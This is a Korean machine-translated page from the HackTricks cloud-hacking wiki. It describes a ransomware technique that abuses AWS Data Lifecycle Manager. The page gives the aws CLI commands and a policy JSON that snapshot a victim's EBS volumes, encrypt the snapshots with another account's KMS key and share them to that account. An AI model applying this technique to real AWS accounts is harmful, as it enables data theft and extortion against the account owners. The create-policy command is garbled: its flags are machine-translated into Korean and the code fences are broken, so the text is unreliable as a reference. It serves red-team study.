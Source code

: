 # AWS - 데이터 라이프사이클 관리자

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로부터 AWS 해킹을 전문가로 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **해킹 요령을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 데이터 라이프사이클 관리자 (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

랜섬웨어 공격은 가능한 많은 EBS 볼륨을 암호화한 다음 현재 EC2 인스턴스, EBS 볼륨 및 스냅샷을 삭제함으로써 실행될 수 있습니다. 이 악의적인 활동을 자동화하기 위해 Amazon DLM을 사용하여 다른 AWS 계정의 KMS 키로 스냅샷을 암호화하고 암호화된 스냅샷을 다른 계정으로 전송할 수 있습니다. 또는 암호화하지 않은 스냅샷을 관리하는 계정으로 전송한 다음 그곳에서 암호화할 수 있습니다. 기존 EBS 볼륨이나 스냅샷을 직접 암호화하는 것은 간단하지 않지만 새 볼륨이나 스냅샷을 생성함으로써 가능합니다.

먼저 인스턴스 ID, 볼륨 ID, 암호화 상태, 첨부 상태 및 볼륨 유형과 같은 볼륨에 대한 정보를 수집하는 명령을 사용할 것입니다.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```plaintext
aws dlm 수명주기-정책 생성 --설명 "내 첫 번째 정책" --상태 ENABLED --실행-역할-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --정책-세부정보 file://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
    "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
    "ResourceTypes": [
        "VOLUME"
    ],
    "TargetTags": [
        {
            "Key": "ExampleKey",
            "Value": "ExampleValue"
        }
    ],
    "Schedules": [
        {
            "Name": "DailySnapshots",
            "CopyTags": true,
            "TagsToAdd": [
                {
                    "Key": "SnapshotCreator",
                    "Value": "DLM"
                }
            ],
            "VariableTags": [
                {
                    "Key": "CostCenter",
                    "Value": "Finance"
                }
            ],
            "CreateRule": {
                "Interval": 24,
                "IntervalUnit": "HOURS",
                "Times": [
                    "03:00"
                ]
            },
            "RetainRule": {
                "Count": 14
            },
            "FastRestoreRule": {
                "Count": 2,
                "Interval": 12,
                "IntervalUnit": "HOURS"
            },
            "CrossRegionCopyRules": [
                {
                    "TargetRegion": "us-west-2",
                    "Encrypted": true,
                    "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
                    "CopyTags": true,
                    "RetainRule": {
                        "Interval": 1,
                        "IntervalUnit": "DAYS"
                    }
                }
            ],
            "ShareRules": [
                {
                    "TargetAccounts": [
                        "123456789012"
                    ],
                    "UnshareInterval": 30,
                    "UnshareIntervalUnit": "DAYS"
                }
            ]
        }
    ],
    "Parameters": {
        "ExcludeBootVolume": false
    }
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
